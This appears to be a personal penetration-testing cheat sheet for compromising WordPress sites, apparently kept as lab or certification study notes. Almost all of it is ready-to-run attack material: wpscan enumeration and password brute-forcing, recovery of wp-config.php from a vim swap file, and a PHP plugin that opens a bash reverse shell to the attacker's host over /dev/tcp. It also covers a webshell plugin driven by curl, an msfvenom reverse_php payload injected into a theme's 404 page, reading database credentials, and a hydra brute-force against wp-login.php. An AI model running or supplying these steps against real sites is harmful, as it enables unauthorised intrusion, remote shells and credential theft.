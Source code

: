 #### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```

#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

#### wp-config.php.swp file
```bash - kali
vim -r .wp-config.php.swp
```

```bash - kali
esc
```

```bash - kali
:w wp-config.txt
```

Now viewing the contents are much easier in wp-config.txt file.

#### WORDPRESS PLUGIN SHELL

[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

```bash - kali
mousepad reverseshell-plugin.php
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");

?>
```

```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```

![[rlwrap]]

Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]

Now just click on "Activate Plugin" and done!

#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```
sudo zip plugin-shell.zip plugin-shell.php
```

WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now

Even if this says it failed to install, STILL RUN THE CURL COMMAND!
![[Pasted image 20220601122227.png]]

```
curl http://$TARGET/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```

In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.

After updating, just access a non-existing page to trigger reverse shell.

#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```

```bash
cat wp-config.php | grep DB
```

#### hydra command against wordpress:

![[Hydra#Hydra against WordPress]]

FROM BURP:
>log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1

```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```

![[Port 3306 - MySQL ~#MySQL to Wordpress password]]

[[3._LFI RFI#Wordpress config php]]